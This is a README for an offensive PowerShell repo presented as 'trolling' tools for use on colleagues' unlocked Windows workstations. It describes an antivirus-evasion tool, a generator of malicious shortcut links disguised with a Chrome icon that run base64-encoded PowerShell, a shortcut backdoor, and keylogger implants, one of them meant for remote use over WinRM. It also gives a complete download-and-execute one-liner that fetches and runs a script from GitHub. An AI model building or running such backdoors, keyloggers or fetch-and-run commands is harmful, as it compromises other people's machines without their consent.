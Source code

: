 # trollsrc
PoCs to share for trolling
## WARNING, THIS REPO IS FOR ADVANCED PERSISTENT TROLLS ONLY
These tools are intended to be used in a well-configured windows environment that allows for some user-level powershell execution.
Have a problem with admins leaving their workstations unlocked? Teach them a lesson by performing a benign backdoor on their primary web browser and wait :D

## .\Invoke-Dickfuscation.ps1
* Takes a target binary
* Bypasses most AV by overwriting the 'This program cannot be run in DOS mode' PE bytes with an ASCII cock

## .\make-shortcut.ps1
* Generates malicious shortcut links (chrome Icon mimicked by default)
* Takes powershell 1 liners as an argument; base64 encodes and executes payload when the icon is clicked

## .\bd-lnk.ps1 
* Takes a shortcut path as an argument; backdoors it with a troll message payload
* it will backdoor the link with a powershell troll msg and then redirect execution to the original application
* this will copy the source icon to $env:homepath\trollz\linkbackup\$foo.lnk for restoration
* .\bd-lnk.ps1 -sourcepath "$env:homepath\desktop\google chrome.lnk" 

## .\keyimp.ps1
* keyimp-ri.ps1 is intended for REMOTE implants, i.e. this can be run on a system via WinRM 
* keyimp.ps1 and simple-keyimp.ps1 are intended to be loaded from the target user session (unlocked workstation)
* loads up a keylogger that pops calc.exe anytime 'c' is pressed
* iex (new-object system.net.webclient).downloadstring("https://raw.githubusercontent.com/pooki3bear/trollsrc/master/keyimp.ps1")
